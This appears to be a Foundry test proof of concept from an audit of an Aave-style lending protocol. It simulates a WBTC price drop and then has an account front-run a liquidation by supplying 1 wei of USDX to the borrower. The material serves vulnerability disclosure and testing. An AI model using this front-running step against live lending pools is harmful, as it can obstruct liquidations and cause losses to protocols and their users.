```solidity

    // Step 2: WBTC Price drops by 40%. 27000 -> 16200.
    LiquidationInput memory params = _loadLiquidationInput(
      alice,
      tokenList.wbtc,
      tokenList.usdx,
      UINT256_MAX,
      tokenList.wbtc,
      40_00
    );

    console.log("> Current price:");
    console.log("wbtc price =", IAaveOracle(report.aaveOracle).getAssetPrice(tokenList.wbtc));
    console.log("usdx price =", IAaveOracle(report.aaveOracle).getAssetPrice(tokenList.usdx));

    (, , address varDebtToken) = contracts.protocolDataProvider.getReserveTokensAddresses(
      params.debtAsset
    );
    uint256 userDebtBefore = IERC20(varDebtToken).balanceOf(params.user);
    uint256 liquidatorBalanceBefore;
    if (params.receiveAToken) {
      (address atoken, , ) = contracts.protocolDataProvider.getReserveTokensAddresses(
        params.collateralAsset
      );
      liquidatorBalanceBefore = IERC20(atoken).balanceOf(bob);
    } else {
      liquidatorBalanceBefore = IERC20(params.collateralAsset).balanceOf(bob);
    }

    // Step 3: Output logs before liquidation.
    {
      console.log("> Before liquidation:");
      (
        uint totalCollateralInBaseCurrency,
        uint totalDebtInBaseCurrency,
        ,
        ,
        ,
        uint healthFactor
      ) = contracts.poolProxy.getUserAccountData(params.user);
      console.log("totalCollateralInBaseCurrency, totalDebtInBaseCurrency, healthFactor =", totalCollateralInBaseCurrency, totalDebtInBaseCurrency, healthFactor);
    }

    // Step 4: Carol frontruns the liquidation and supply 1 wei USDX to alice.
    vm.startPrank(poolAdmin);
    usdx.mint(carol, 1);
    vm.stopPrank();
    vm.startPrank(carol);
    contracts.poolProxy.supply(tokenList.usdx, 1, alice, 0);
    vm.stopPrank();

    // Step 5: Liquidate coll=WBTC, debt=USDX position.
    vm.prank(bob);
    contracts.poolProxy.liquidationCall(
      params.collateralAsset,
      params.debtAsset,
      params.user,
      params.liquidationAmountInput,
      params.receiveAToken
    );

    _afterLiquidationChecksVariable(params, bob, liquidatorBalanceBefore, userDebtBefore);
```